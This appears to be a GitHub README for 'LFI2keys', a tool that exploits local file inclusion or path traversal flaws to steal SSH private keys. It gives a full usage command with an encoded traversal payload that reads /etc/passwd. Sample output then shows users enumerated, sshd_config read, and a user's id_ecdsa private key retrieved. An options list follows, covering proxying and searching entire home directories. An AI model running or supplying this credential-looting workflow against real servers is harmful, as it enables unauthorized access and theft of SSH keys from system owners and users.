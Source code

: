 ## Summary
Found a local file inclusion or path traversal vulnerability? Automate the extraction of SSH private keys with LFI2keys. It uses the exposed `/etc/passwd` file to extract valid users, checks for commonly named SSH keys, and gathers useful SSH configuration details from `/etc/ssh/sshd_config`.

## Usage
Provide the full URL of the vulnerable endpoint where you can read the `/etc/passwd` file, and supply a private key [wordlist](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists). Use the `-v` parameter for verbose output and for printing the found private key.

```bash
┌──(kali㉿DC07 | 2025-02-12 00:13:37)-[~]
└─$ python3 lfi2keys.py -u https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd -l ssh-priv-key-loot-medium.txt -o keys.txt

  _    ___ ___ ___ _  _______   _____ 
 | |  | __|_ _|_  ) |/ / __\ \ / / __|
 | |__| _| | | / /| ' <| _| \ V /\__ \
 |____|_| |___/___|_|\_\___| |_| |___/

LFI to SSH Private Keys - Automated Looting Script

[+] Valid /etc/passwd file found
[+] Valid users exported:
    miranda -> /home/miranda
    steven -> /home/steven
    mark -> /home/mark
    nick -> /home/nick
[+] /etc/ssh/sshd_config file found
    PermitRootLogin: disabled
    PubkeyAuthentication: enabled
    PasswordAuthentication: disabled
    ChallengeResponseAuthentication: disabled
[+] Checking for SSH metadata (authorized_keys and known_hosts)...
[!] Found authorized_keys for nick: https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/nick/.ssh/authorized_keys
[+] Starting to FUZZ
[+] Private key found for nick at: https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/nick/.ssh/id_ecdsa
[+] Results saved to keys.txt
[+] Done (～￣▽￣)～
```

## Options
```bash
  -h, --help            show this help message and exit
  -u URL, --url URL     LFI URL pointing to /etc/passwd
  -l LIST, --list LIST  Wordlist containing SSH private key names
  -o OUTPUT, --output OUTPUT
                        File to save found private key URLs and contents
  -p PROXY, --proxy PROXY
                        Proxy URL (e.g., http://127.0.0.1:8080)
  -v, --verbose         Enable verbose mode for debugging
  -a, --all             Also search the entire home directory (not just .ssh folder)
  -c, --continue-on-success
                        Continue scanning all users for private keys even after a match is found
```

### Credits
- [PinoyWH1Z](https://github.com/PinoyWH1Z) for his [SSH private key wordlists](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists).
